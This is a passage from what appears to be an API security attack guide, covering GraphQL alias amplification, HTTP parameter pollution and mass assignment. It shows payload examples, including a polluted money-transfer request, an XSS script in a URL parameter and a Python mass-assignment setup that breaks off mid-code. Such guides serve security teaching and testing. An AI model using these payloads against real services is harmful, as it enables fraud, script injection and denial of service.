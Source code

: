 ```graphql
  }
}

# Alias-based amplification
query {
  user1: user(id: 1) { name }
  user2: user(id: 1) { name }
  user3: user(id: 1) { name }
  # ... repeat for hundreds of aliases
}
```

### 🔗 REST API Advanced Attacks

#### **HTTP Parameter Pollution (HPP)**

**Server-Side HPP:**
```bash
# Different servers handle duplicate parameters differently
# Apache: Uses last value
# Nginx: Uses first value
# IIS: Concatenates with comma

# Attack example
POST /api/transfer HTTP/1.1
Content-Type: application/x-www-form-urlencoded

amount=1&to_account=attacker&amount=1000000&to_account=victim

# Depending on server:
# - Amount: 1 or 1000000
# - Destination: attacker or victim
```

**Client-Side HPP:**
```javascript
// URL: /search?category=electronics&category=<script>alert('XSS')</script>
// Client-side JavaScript might process both parameters

const urlParams = new URLSearchParams(window.location.search);
const categories = urlParams.getAll('category');
// categories = ['electronics', '<script>alert(\'XSS\')</script>']

// If used in innerHTML without sanitization:
document.getElementById('results').innerHTML = 
    `Searching in categories: ${categories.join(', ')}`;
```

#### **REST API Mass Assignment**

**Mass Assignment Attack:**
```python
import requests

# Discover available fields through error messages or documentation
# Then attempt to modify protected fields

# Normal user update
normal_data = {
    'name': 'John Doe',
    'email': 'john@example.com'
}

# Mass assignment attack
attack_data = {
```